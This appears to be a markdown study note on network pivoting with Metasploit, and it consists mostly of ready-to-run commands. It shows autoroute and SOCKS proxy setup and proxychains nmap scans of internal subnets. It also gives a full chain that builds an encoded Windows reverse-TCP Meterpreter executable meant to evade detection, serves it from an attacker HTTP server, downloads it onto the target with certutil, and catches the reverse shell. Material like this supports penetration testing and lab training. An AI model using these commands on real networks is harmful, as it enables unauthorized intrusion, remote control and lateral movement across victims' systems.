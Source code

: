Pivoting  is the process of using a compromised system as a gateway to access other machines or networks that are not directly reachable.


---


## Pivoting having a Meterpreter Session
1. **Compromise a Host**
- Gain access to a machine using exploits in Metasploit, resulting in a Meterpreter session or other payload connection. 
- Identify a network that was not accessible before.

2.  **Set Up Routes**

- Use the `autoroute` module to add a route through the compromised host. This will enable Metasploit to send traffic through the host to the target network.

```bash
run autoroute -s [compromised_host_subnet]
```

3. **Verify the Routes**

- Check the routes added to ensure connectivity:

```bash
msf6 > route
```

4. **Run Scans Through the Pivot**

- Perform reconnaissance using modules like `auxiliary/scanner/portscan/tcp` or `auxiliary/scanner/http/http_version` through the pivoted route.

```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS <discovered_ip>
run
```

5. **Forward Traffic**

Once the pivot is set up, you can also use Metasploit to create a SOCKS proxy, allowing you to route all traffic through the compromised machine.

```bash
# Ensure that the srvport is defined at /etc/proxychains4.conf and the socks version in use. 
use auxiliary/server/socks_proxy
set SRVPORT 9050
# If our attacker machine is configured with proxychains4 we will need to specify the version 4a
set VERSION <version>
run
```

6. **Running Applications Through ProxyChains** 

Once you have set up a SOCKS proxy either through Metasploit or SSH, you can use **ProxyChains** to route the traffic of various tools through the proxy.

```bash
proxychains nmap -sT -Pn -p 22 192.168.1.0/24
```


---

## Pivoting without a previous Meterpreter Session


1. **Generate the Payload with msfvenom**  
Create a Windows reverse TCP Meterpreter executable, encoded multiple times to evade detection:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.49.2 LPORT=1234 -i 10 -e x86/shikata_ga_nai -f exe -o shell.exe
```

2. **Host the Payload**  
Use Python’s built-in HTTP server to make the payload available for download:

```bash
python3 -m http.server 80
```

3. **Download the Payload on the Target**  
From the compromised Windows machine, use `certutil` to fetch the payload:

```bash
certutil -split -urlcache -f http://10.10.49.2/shell.exe shell.exe
```

4. **Start the Meterpreter Listener**

In Metasploit:
```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.49.2
set LPORT 1234
run
```


5. **Execute the Payload**  
Run `shell.exe` on the target to establish a Meterpreter session back to the attacker.

6. **Add Route in Meterpreter**  
Once the session is active, add a route to pivot into the internal network:

```bash
run autoroute -s [target_subnet]
bg
```

7. **Launch SOCKS Proxy (SOCKS4a)**

```bash
search socks  
use 0  
set SRVPORT 9050  
set VERSION 4a  
run
```

8. **Enumerating the Internal Network**
```bash
proxychains nmap -sT -Pn -n -T4 -p- 10.5.31.174
```